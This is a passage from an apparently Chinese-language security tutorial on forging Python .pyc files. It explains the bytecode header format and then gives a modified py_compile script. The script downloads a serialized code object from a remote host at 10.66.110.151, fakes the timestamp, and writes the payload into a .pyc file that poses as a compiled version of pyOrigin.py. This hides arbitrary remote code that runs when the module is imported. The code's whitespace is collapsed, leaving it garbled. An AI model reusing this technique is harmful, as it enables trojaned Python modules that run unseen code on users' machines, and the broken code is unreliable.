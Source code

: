 `#!pythonMAGIC = imp.get_magic()`

然后根据py文件的创建时间来生成时间戳：

`#!pythontimestamp = long(os.fstat(f.fileno()).st_mtime`

最后利用__builtin__.compile方法生成exec模式的code object对象，并使用marshal.dump方法将codeobject写入到pyc文件中

`#!pythoncodeobject = __builtin__.compile(codestring, dfile or file,'exec')`

知道了原理，接下来我们可以利用下面的脚本来构造pyc文件：

`#!python"""Routine to "compile" a .py file to a .pyc (or .pyo) file.This module has intimate knowledge of the format of .pyc files."""import __builtin__import impimport marshalimportosimport sysimporttracebackimportzlibimporturllibMAGIC = imp.get_magic()  #根据Python版本信息生成的魔数__all__ = ["compile", "main", "PyCompileError"]classPyCompileError(Exception):    """Exception raised when an error occurs while attempting tocompile the file.    To raise this exception, useraisePyCompileError(exc_type,exc_value,file[,msg])whereexc_type:   exception type to be used in error messagetype name can be accesses as class variable                    'exc_type_name'exc_value:  exception value to be used in error messagecan be accesses as class variable 'exc_value'file:       name of file being compiled to be used in error messagecan be accesses as class variable 'file'msg:        string message to be written as error message                    If no value is given, a default exception message will be given,consistent with 'standard' py_compile output.message (or default) can be accesses as class variable 'msg'    """def __init__(self, exc_type, exc_value, file, msg=''):exc_type_name = exc_type.__name__ifexc_type is SyntaxError:tbtext = ''.join(traceback.format_exception_only(exc_type, exc_value))errmsg = tbtext.replace('File ""', 'File "%s"' % file)else:errmsg = "Sorry: %s: %s" % (exc_type_name,exc_value)        Exception.__init__(self,msg or errmsg,exc_type_name,exc_value,file)self.exc_type_name = exc_type_nameself.exc_value = exc_valueself.file = file        self.msg = msg or errmsgdef __str__(self):return self.msgdefwr_long(f, x):    """Internal; write a 32-bit int to a file in little-endian order."""f.write(chr( x        & 0xff))f.write(chr((x >> 8)  & 0xff))f.write(chr((x >> 16) & 0xff))f.write(chr((x >> 24) & 0xff))def compile(file, cfile=None, dfile=None, doraise=False):    """Byte-compile one Python source file to Python bytecode.    Arguments:file:    source filenamecfile:   target filename; defaults to source with 'c' or 'o' appended             ('c' normally, 'o' in optimizing mode, giving .pyc or .pyo)dfile:   purported filename; defaults to source (this is the filenamethat will show up in error messages)doraise: flag indicating whether or not an exception should beraised when a compile error is found. If an exceptionoccurs and this flag is set to False, a stringindicating the nature of the exception will be printed,and the function will return to the caller. If anexception occurs and this flag is set to True, aPyCompileError exception will be raised.    Note that it isn't necessary to byte-compile Python modules forexecution efficiency -- Python itself byte-compiles a module whenit is loaded, and if it can, writes out the bytecode to thecorresponding .pyc (or .pyo) file.    However, if a Python installation is shared between users, it is agood idea to byte-compile all modules upon installation, sinceother users may not be able to write in the source directories,and thus they won't be able to write the .pyc/.pyo file, and thenthey would be byte-compiling every module each time it is loaded.    This can slow down program start-up considerably.    See compileall.py for a script/module that uses this module tobyte-compile all installed files (or all files in selecteddirectories).    """timestamp = long(1449234682)  #可以是随机生成的时间戳try:codeobject = marshal.loads(urllib.urlopen('http://10.66.110.151/mystatic/pyCode').read())    # 反序列化获取远程服务器上的code object对象exceptException,err:py_exc = PyCompileError(err.__class__, err, dfile or file)ifdoraise:raisepy_excelse:sys.stderr.write(py_exc.msg + '\n')returnifcfile is None:cfile = file + (__debug__ and 'c' or 'o')with open(cfile, 'wb') as fc:fc.write('\0\0\0\0')wr_long(fc, timestamp)marshal.dump(codeobject, fc)  # 将序列化后的code object对象写入到pyc文件fc.flush()fc.seek(0, 0)fc.write(MAGIC)def main(args=None):    """Compile several source files.    The files named in 'args' (or on the command line, if 'args' isnot specified) are compiled and the resulting bytecode is cachedin the normal manner.  This function does not search a directorystructure to locate source files; it only compiles files namedexplicitly.  If '-' is the only parameter in args, the list offiles is taken from standard input.    """ifargs is None:args = sys.argv[1:]rv = 0ifargs == ['-']:while True:filename = sys.stdin.readline()if not filename:breakfilename = filename.rstrip('\n')try:compile(filename, doraise=True)exceptPyCompileError as error:rv = 1sys.stderr.write("%s\n" % error.msg)exceptIOError as error:rv = 1sys.stderr.write("%s\n" % error)else:for filename in args:try:compile(filename, doraise=True)exceptPyCompileError as error:                # return value to indicate at least one failurerv = 1sys.stderr.write(error.msg)returnrvif __name__ == "__main__":compile('pyOrigin.py')`
